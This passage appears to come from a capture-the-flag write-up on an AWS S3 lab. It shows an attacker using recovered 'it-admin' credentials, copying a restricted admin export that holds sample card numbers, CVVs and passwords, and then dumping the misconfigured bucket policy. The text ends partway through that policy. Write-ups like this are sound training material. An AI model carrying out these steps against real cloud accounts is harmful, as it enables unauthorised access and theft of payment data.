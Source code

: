 After authenticating with new credentials, we logged in as `it-admin` user
```
└─$ aws sts get-caller-identity                                                
{
    "UserId": "AIDA3SFMDAPOWKM6ICH4K",
    "Account": "794929857501",
    "Arn": "arn:aws:iam::794929857501:user/it-admin"
}

```

Now we can successfully capture our flag and confidential data
```
└─$ aws s3 cp s3://dev.huge-logistics.com/admin/website_transactions_export.csv -
network,credit_card_number,cvv,expiry_date,card_holder_name,validation,username,password,ip_address
Visa,4055497191304,386,5/2021,Hunter Miller,,hunter_m,password123,34.56.78.90
<SNIP>
```

We can check the policies for the bucket
```
└─$ aws s3api get-bucket-policy --bucket dev.huge-logistics.com | jq -r '.Policy | fromjson'
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "PublicRead",
      "Effect": "Allow",
      "Principal": "*",
      "Action": "s3:GetObject",
      "Resource": [
        "arn:aws:s3:::dev.huge-logistics.com/shared/*",
        "arn:aws:s3:::dev.huge-logistics.com/index.html",
        "arn:aws:s3:::dev.huge-logistics.com/static/*"
      ]
    },
    {
      "Sid": "ListBucketRootAndShared",
      "Effect": "Allow",
      "Principal": "*",
      "Action": "s3:ListBucket",
      "Resource": "arn:aws:s3:::dev.huge-logistics.com",
      "Condition": {
        "StringEquals": {
          "s3:prefix": [
            "",
            "shared/",
            "static/"
          ],
          "s3:delimiter": "/"
        }
      }
    },
    {
      "Sid": "AllowAllExceptAdmin",
      "Effect": "Allow",
      "Principal": {
        "AWS": [
          "arn:aws:iam::794929857501:user/it-admin",
          "arn:aws:iam::794929857501:user/pam-test"
        ]
      },
      "Action": [
        "s3:Get*",
        "s3:List*"
```